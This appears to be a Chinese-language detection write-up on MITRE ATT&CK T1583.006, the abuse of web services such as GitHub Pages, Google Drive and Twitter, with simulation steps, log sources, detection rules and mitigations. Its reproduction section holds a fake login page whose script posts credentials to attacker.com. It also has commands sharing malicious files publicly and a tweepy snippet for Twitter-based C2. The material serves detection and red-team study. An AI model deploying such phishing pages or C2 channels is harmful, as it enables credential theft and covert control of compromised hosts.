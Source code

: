 # T1583-006-获取基础设施-web服务

## 描述
攻击者在入侵目标组织之前，可能注册或利用现有的Web服务以支持目标定位和攻击执行。Web服务包括社交媒体平台（如Twitter、Facebook）、云存储服务（如Google Drive、Dropbox）、代码托管平台（如GitHub、GitLab）或其他在线服务。这些服务因其普遍性和高声誉，常被攻击者滥用以隐藏恶意活动，增加追踪难度。攻击者可能通过这些服务执行多种恶意活动，例如命令与控制（C2）、数据泄露、钓鱼或恶意软件分发。

攻击者可能通过以下方式利用Web服务：
- **命令与控制（C2）**：通过Web服务API（如Twitter DM、Google Sheets）传输C2指令，隐藏在正常流量中。
- **数据泄露**：利用云存储服务（如Dropbox、OneDrive）存储或传输窃取的数据。
- **钓鱼和恶意内容托管**：在GitHub Pages、Google Sites等平台上托管钓鱼页面或恶意文件。
- **匿名性增强**：使用匿名账户或临时邮箱注册Web服务，降低被追踪的风险。

Web服务的广泛使用和高信任度使其成为攻击者的理想基础设施，尤其是在需要隐蔽通信或快速部署的场景中。

## 测试案例
以下是模拟攻击者获取和使用Web服务的常见方法和案例：
- **GitHub Pages托管钓鱼页面**：
  - 在GitHub上创建仓库，使用GitHub Pages部署伪装的登录页面。
    ```bash
    # 创建GitHub Pages
    git init
    echo "<html><body><h1>TargetCorp Login</h1></body></html>" > index.html
    git add . && git commit -m "Initial commit"
    git push origin main
    # 启用GitHub Pages
    ```
- **云存储服务分发恶意文件**：
  - 将恶意软件上传到Google Drive或Dropbox，生成共享链接。
    ```bash
    # 使用Google Drive CLI上传文件
    gdrive upload malicious.exe
    gdrive share malicious.exe --role reader --type anyone
    ```
- **社交媒体C2**：
  - 使用Twitter API发送加密的C2指令。
    ```python
    import tweepy
    auth = tweepy.OAuthHandler("consumer_key", "consumer_secret")
    auth.set_access_token("access_token", "access_token_secret")
    api = tweepy.API(auth)
    api.update_status("encoded_C2_command")
    ```
- **案例场景**：
  - 攻击者在GitHub Pages上部署伪装的TargetCorp登录页面，通过钓鱼邮件分发链接，窃取员工凭据。
  - 使用Google Drive共享恶意PDF，结合社交工程诱导员工下载并执行。
  - 参考案例：攻击者利用Google Drive分发勒索软件，隐藏在合法流量中。

## 检测日志
Web服务相关活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **网络流量日志**：
  - 检测与Web服务（如Google、Twitter、GitHub）的异常API调用或流量模式。
- **DNS日志**：
  - 记录解析到Web服务IP的异常域名查询，可能与C2或钓鱼相关。
- **邮件服务器日志**：
  - 监控钓鱼邮件，包含指向Web服务托管的恶意链接。
- **防火墙/IDS日志**：
  - 检测异常的HTTP/HTTPS流量，涉及Web服务的API端点。
- **端点日志**：
  - 记录访问Web服务托管的恶意页面或下载可疑文件的活动。

## 测试复现
以下是模拟攻击者获取Web服务的步骤：
1. **环境准备**：
   - 注册GitHub、Google Drive或Twitter账户，准备测试环境。
   - 确保在授权范围内操作，避免违反服务条款。
2. **Web服务配置**：
   - **GitHub Pages钓鱼页面**：
     ```bash
     # 创建GitHub仓库
     mkdir phishing-site && cd phishing-site
     git init
     echo "<html><body><form id='login'><input type='text' id='username'><input type='password' id='password'><input type='submit' value='Login'></form><script>document.getElementById('login').addEventListener('submit', function(e) { e.preventDefault(); fetch('http://attacker.com/collect', { method: 'POST', body: JSON.stringify({ username: document.getElementById('username').value, password: document.getElementById('password').value }) }); });</script></body></html>" > index.html
     git add . && git commit -m "Initial commit"
     git push origin main
     # 启用GitHub Pages
     ```
   - **Google Drive恶意文件**：
     ```bash
     # 安装gdrive CLI
     wget https://github.com/glotlabs/gdrive/releases/download/3.9.1/gdrive-linux-x64
     chmod +x gdrive-linux-x64
     ./gdrive-linux-x64 upload malicious.pdf
     ./gdrive-linux-x64 share malicious.pdf --role reader --type anyone
     ```
   - **Twitter C2**：
     ```python
     import tweepy
     auth = tweepy.OAuthHandler("consumer_key", "consumer_secret")
     auth.set_access_token("access_token", "access_token_secret")
     api = tweepy.API(auth)
     api.update_status("encoded_C2_command:execute_payload")
     ```
3. **测试执行**：
   - 发送钓鱼邮件，诱导目标访问GitHub Pages上的伪装页面。
   - 使用Twitter API发送C2指令，模拟控制受感染主机。
4. **结果分析**：
   - 验证钓鱼页面或C2通道是否正常运行。
5. **日志收集**：
   - 收集DNS、网络流量、邮件和端点日志，分析Web服务相关活动痕迹。

## 测试留痕
Web服务相关活动可能留下以下痕迹：
- **DNS查询**：解析到Web服务（如github.io、drive.google.com）的异常域名。
- **网络流量**：与Web服务API端点的异常HTTP/HTTPS通信。
- **防火墙/IDS告警**：触发C2或钓鱼相关的检测规则。
- **邮件服务器日志**：钓鱼邮件中包含Web服务托管的链接。
- **端点日志**：访问Web服务托管的恶意页面或下载可疑文件的记录。

## 检测规则/思路
由于Web服务活动多发生在目标组织视野之外，检测需结合多种手段：
- **网络流量监控**：
  - 检测与Web服务（如Google Drive、Twitter API）的异常通信，关注高频API调用或可疑流量模式。
  - 示例Snort规则：
    ```snort
    alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"Suspicious Web Service Traffic"; content:"api.twitter.com"; sid:1000001;)
    ```
  - 使用NetFlow或Zeek分析与Web服务的长期连接或异常流量。
- **DNS监控**：
  - 检测解析到Web服务IP的异常域名，重点关注github.io、drive.google.com等。
  - 示例DNS防火墙规则：
    ```plaintext
    Rule: Detect Suspicious Web Service Domains
    Condition: DNS query resolves to github.io OR drive.google.com
    Action: Alert
    ```
- **邮件监控**：
  - 使用DLP工具检测钓鱼邮件，检查包含Web服务链接的邮件。
  - 示例DLP规则：
    ```plaintext
    Rule: Detect Phishing Links to Web Services
    Condition: Email contains "http" AND "github.io"
    Action: Alert
    ```
- **端点监控**：
  - 使用EDR工具（如CrowdStrike、Carbon Black）检测访问Web服务托管的恶意页面或下载可疑文件的活动。
- **威胁情报整合**：
  - 结合威胁情报平台（如微步在线、奇安信），识别已知的恶意Web服务URL或IP。
  - 监控暗网市场，检测Web服务账户的异常使用。

## 建议
- **减少暴露面**：
  - 限制员工访问未知或可疑的Web服务链接。
  - 使用URL过滤器拦截已知Web服务的恶意子域名（如github.io）。
- **安全加固**：
  - 配置防火墙限制与Web服务API的异常通信。
  - 实施MFA保护与员工相关的Web服务账户，防止凭据被窃取。
  - 使用WAF保护合法网站，拦截异常流量。
- **主动监控与响应**：
  - 部署SIEM工具（如Splunk、ELK），分析与Web服务相关的异常流量模式。
  - 使用Shodan或Censys监控Web服务的暴露页面，识别潜在恶意活动。
  - 使用威胁狩猎（Threat Hunting）技术，主动搜索可能的Web服务滥用行为。
- **后续阶段检测**：
  - 重点监控攻击者生命周期的后续阶段（如命令与控制T1102、钓鱼T1566、数据泄露T1567），通过异常流量或行为间接发现Web服务活动。

## 参考资料
- MITRE ATT&CK: T1583-006  
  <https://attack.mitre.org/techniques/T1583/006/>
